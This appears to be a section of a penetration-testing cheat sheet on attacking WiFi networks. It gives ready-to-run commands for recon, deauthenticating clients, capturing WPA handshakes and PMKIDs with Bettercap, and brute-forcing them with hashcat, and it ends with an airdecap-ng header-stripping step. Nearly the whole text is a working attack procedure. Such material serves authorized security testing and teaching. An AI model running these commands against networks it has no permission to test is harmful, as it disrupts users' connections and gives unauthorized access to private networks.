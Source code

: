 ```powershell
hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'
hashcat -m 16800 -d 1 -w 3 myHashes rockyou.txt 

# Check clGetPlatformIDs(): CL_PLATFORM_NOT_FOUND_KHR
```

#### Cracking WPA with Bettercap

```powershell
# install and update
go get github.com/bettercap/bettercap
cd $GOPATH/src/github.com/bettercap/bettercap
make build && sudo make install
sudo bettercap -eval "caplets.update; q"

# run and recon the wifi APs
sudo bettercap -iface wlan0
# this will set the interface in monitor mode and start channel hopping on all supported frequencies
> wifi.recon on 
# we want our APs sorted by number of clients for this attack, the default sorting would be `rssi asc`
> set wifi.show.sort clients desc
# every second, clear our view and present an updated list of nearby WiFi networks
> set ticker.commands 'clear; wifi.show'
> ticker on
# use the good channel
> wifi.recon.channel 1
```

**Bettercap WPA - Deauth and crack**

```powershell
# use the bssid of the AP
> wifi.deauth e0:xx:xx:xx:xx:xx
/path/to/cap2hccapx /root/bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m 2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

**Bettercap WPA - PMKID attack**

```powershell
wifi.assoc all
/path/to/hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
/path/to/hashcat -m16800 -a3 -w3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```

### Additional Aircrack-NG Tools

#### Remove Wireless Headers

```powershell
airdecap-ng -b $AP_MAC open-network.cap
* -dec.cap: stripped version of the file
```
